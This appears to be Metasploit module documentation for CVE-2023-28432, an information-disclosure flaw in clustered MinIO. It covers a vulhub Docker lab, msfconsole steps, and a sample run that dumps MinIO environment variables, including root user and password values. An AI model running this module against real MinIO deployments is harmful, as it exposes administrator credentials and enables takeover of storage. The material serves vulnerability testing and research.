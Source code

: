 ## Vulnerable Application

MinIO is a Multi-Cloud Object Storage framework. In a cluster deployment starting with
RELEASE.2019-12-17T23-16-33Z and prior to RELEASE.2023-03-20T20-16-18Z, MinIO returns
all environment variables, including `MINIO_SECRET_KEY` and `MINIO_ROOT_PASSWORD`,
resulting in information disclosure.

### Docker Image

1. Download docker yml: https://raw.githubusercontent.com/vulhub/vulhub/master/minio/CVE-2023-28432/docker-compose.yml
1. Execute `docker-compose up` inside the same directory containing the docker-compose.yml
1. Then MinIO's login page should be available at http://127.0.0.1:9001/

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/gather/minio_bootstrap_verify_info_disc.rb`
1. Do: `set rhost [IP]`
1. Do: `run`
1. You should get MinIO Environmental Variables

## Options

## Scenarios

### MinIO 2023-02-27T18:10:45Z from docker image

```
resource (msf)> set rhost 127.0.0.1
rhost => 127.0.0.1
resource (msf)> set rport 9000
rport => 9000
msf auxiliary(gather/minio_bootstrap_verify_info_disc) > run
[*] Reloading module...
[*] Running module against 127.0.0.1

[+] MINIO_ACCESS_KEY_FILE: access_key
[+] MINIO_CONFIG_ENV_FILE: config.env
[+] MINIO_KMS_SECRET_KEY_FILE: kms_master_key
[+] MINIO_ROOT_PASSWORD: minioadmin-vulhub
[+] MINIO_ROOT_PASSWORD_FILE: secret_key
[+] MINIO_ROOT_USER: minioadmin
[+] MINIO_ROOT_USER_FILE: access_key
[+] MINIO_SECRET_KEY_FILE: secret_key
[+] MinIO Environmental Variables Json Saved to: /root/.msf4/loot/20240131112953_default_127.0.0.1_minio.env.json_772811.json
[*] Auxiliary module execution completed
```
